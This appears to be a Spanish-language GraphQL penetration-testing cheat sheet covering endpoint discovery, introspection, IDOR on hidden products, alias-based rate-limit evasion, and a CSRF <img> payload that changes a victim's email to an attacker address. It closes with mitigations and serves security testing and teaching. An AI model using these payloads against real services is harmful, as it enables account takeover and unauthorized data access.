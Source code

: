 # 🧖‍♂️ Real World Payloads



Encontrar Endpoints de GraphQL

#### Identificación Básica de Endpoints

1. **Endpoints Comunes:**
   * `/graphql`
   * `/api`
   * `/api/graphql`
   * `/graphql/api`
   * `/graphql/graphql`
2.  **Método de Prueba:** Envía la consulta universal a cada endpoint:

    ```json
    {
        "query": "{__typename}"
    }
    ```

**Respuesta esperada**

```json
{
    "data": {
        "__typename": "query"
    }
}
```

***

#### Métodos de Solicitud Alternativos

1.  **POST con `application/json` (Recomendado):**

    ```http
    POST /graphql HTTP/1.1
    Host: target.com
    Content-Type: application/json

    {
        "query": "{__typename}"
    }
    ```
2.  **GET:** Algunos endpoints pueden aceptar consultas por `GET`.

    ```http
    GET /graphql?query={__typename} HTTP/1.1
    Host: target.com
    ```

***

### Explotación de Argumentos No Saneados

#### Ejemplo: Consulta de Productos

**Consulta Inicial**

```json
query {
    products {
        id
        name
        listed
    }
}
```

**Respuesta**

```json
{
    "data": {
        "products": [
            { "id": 1, "name": "Producto 1", "listed": true },
            { "id": 2, "name": "Producto 2", "listed": true }
        ]
    }
}
```

**Exploit: IDOR para Productos Ocultos**

```json
query {
    product(id: 3) {
        id
        name
        listed
    }
}
```

**Respuesta Esperada**

```json
{
    "data": {
        "product": {
            "id": 3,
            "name": "Producto Oculto",
            "listed": false
        }
    }
}
```

***

### Uso de Introspección para Descubrir Esquemas

#### Consulta de Introspección Básica

```json
{
    "query": "{__schema{queryType{name}}}"
}
```

**Respuesta Esperada**

```json
{
    "data": {
        "__schema": {
            "queryType": {
                "name": "Query"
            }
        }
    }
}
```

***

#### Introspección Completa

```json
query IntrospectionQuery {
    __schema {
        queryType { name }
        mutationType { name }
        types {
            name
            kind
            fields {
                name
                args { name type { name } }
            }
        }
    }
}
```

**Resultado**

Detalla el esquema completo, incluidas las consultas, mutaciones y tipos.

***

### Alias para Evitar Límites de Tasa

#### Ejemplo de Consulta con Alias

```json
query {
    user1: user(id: 1) { name }
    user2: user(id: 2) { name }
    user3: user(id: 3) { name }
}
```

**Respuesta**

```json
{
    "data": {
        "user1": { "name": "Alice" },
        "user2": { "name": "Bob" },
        "user3": { "name": "Charlie" }
    }
}
```

***

### CSRF en GraphQL

#### Ejemplo de Consulta Maliciosa

```json
mutation {
    updateEmail(email: "attacker@example.com") {
        success
    }
}
```

#### Ejemplo de Carga Maliciosa

```html
<img src="https://target.com/graphql?query=mutation%7BupdateEmail(email%3A%22attacker@example.com%22)%7D">
```

***

### Mitigaciones

1. **Deshabilitar Introspección en Producción.**
2. **Validar los Argumentos de Consultas.**
3. **Tokens CSRF y Validación de Origen.**
4. **Limitar Operaciones por Solicitud.**
5. **Configuración de CORS Estricta.**
